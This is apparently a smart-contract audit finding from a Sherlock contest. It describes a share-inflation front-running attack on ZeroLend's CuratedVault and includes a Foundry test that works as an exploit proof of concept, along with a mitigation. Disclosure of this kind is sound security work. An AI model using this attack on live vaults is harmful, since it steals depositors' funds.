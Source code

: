 Trendy Carmine Cobra

High

# Vault is susceptible to Inflation attack

### Summary

CuratedVault.sol is susceptible to a form of inflation attack. The steps an attacker will take are as follows: 
https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/vaults/CuratedVault.sol#L328

1. Mint 1 share with 1 asset. 
2. Frontrun a users deposit by donating 2x the users deposit directly to the pool. 
3. Redeem his 1 share. 

In typical vault donation attackers, the attacker exploits the calculation of assets/shares with a donation. This donation causes a legitimate deposit transaction to mint zero shares, effectively inflating the 1 share the attacker preminted. The above steps will cause a user's deposit to mint 0 shares, essentially forcing a user to donate assets. The attack, as I have found, will not be profitable at this stage. For the attack to be profitable, multiple deposits will be needed. The POC I have provided will show that an additional deposit of equal size + 2 will result in a profit for the attacker. 



### Root Cause

The ability to directly donate to a pool on behalf of a vault allows the share inflation to be attempted. 

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker mints 1 share with 1 wei asset. 
2. Attacker front runs legitimate deposit to vault with donation directly to pool on vaults behalf, causing the pool to mint 0 shares. 
3. Multiple deposits of equal or lessor value to the donation are performed, each minting 0 shares. 
4. Once enough assets have been accumulated, attacker redeems his 1 share for a profit. 

### Impact

Users will be unable to mint shares with token amounts less than that of the initially front run deposit. Multiple users could mistakenly send deposit transactions and mint 0 shares. At minimum, the pool's share logic is broken and this attack is considered a griefing attack. If enough users deposit assets without minting shares, the attacker is able to redeem his 1 share for a net profit on the attack.

### PoC

From ERC4626Test.sol: 
```solidity
function test_inflationAttack(address mal) public {
      vm.assume(mal != address(0));
      uint assets = 1 ether;
      loanToken.mint(supplier, assets * 5);
      IPool pool = allMarkets[0];

      // per OZ, attacker needs u + 1 assets where u is the user deposit amt
      loanToken.mint(mal, 2 * assets + 1);
      uint malStartingBal = loanToken.balanceOf(mal);
      // attacker mints 1 share
      vm.startPrank(mal);
      loanToken.approve(address(vault), 1);
      uint shares = vault.deposit(1, mal);
      vm.stopPrank();
      assertEq(shares, 1, 'attacker should mint 1 share');
      assertEq(loanToken.balanceOf(address(vault)),  0, 'vault should have 0 assets');
      assertEq(allMarkets[0].supplyAssets(address(loanToken), vault.positionId()), 1, 'market should have 1 asset');

      // attacker front runs users deposit with donation to pool
      vm.startPrank(mal);
      loanToken.approve(address(pool), assets * 2);
      pool.supplySimple(address(loanToken), address(vault), assets * 2, 0);
      vm.stopPrank();

      // user deposits
      vm.startPrank(supplier);
      uint userShares = vault.deposit(assets, onBehalf);
      assertEq(userShares, 0, 'user deposit mints 0 shares');
      userShares = vault.deposit(assets + 2, onBehalf);
      assertEq(userShares, 0, 'user deposit mints 0 share');
      vm.stopPrank();

      // shares needed to withdraw all assets
      // uint assetsBal = loanToken.balanceOf(address(allMarkets[0]));
      // uint sharesNeeded = vault.convertToShares(assetsBal);
      // uint maxRedeem = vault.maxRedeem(mal);
      // uint maxWithdraw = vault.maxWithdraw(mal);
      // console.logString('shares needed to w/d assets');
      // console.logUint(sharesNeeded);
      // console.logUint(assetsBal);
      // console.logUint(maxRedeem);
      // console.logUint(maxWithdraw);


      // attacker withdraws
      vm.startPrank(mal);
      uint ts = vault.totalSupply();
      console.logString('total supply');
      console.logUint(ts);
      console.logString('assets per share');

      vault.redeem(1, mal, mal);
      // vault.withdraw(2.5 ether, mal, mal);
      vm.stopPrank();

      // vault should have 0 assets
      assertEq(loanToken.balanceOf(address(vault)), 0, 'vault should have 0 assets');

      // attacker should have his starting assets and users assets: 3 * assets + 1
      assertGt(loanToken.balanceOf(mal), malStartingBal, 'attacker should have more assets');



    }
```

### Mitigation

I recommend not allowing deposits to pool on behalf of vaults. 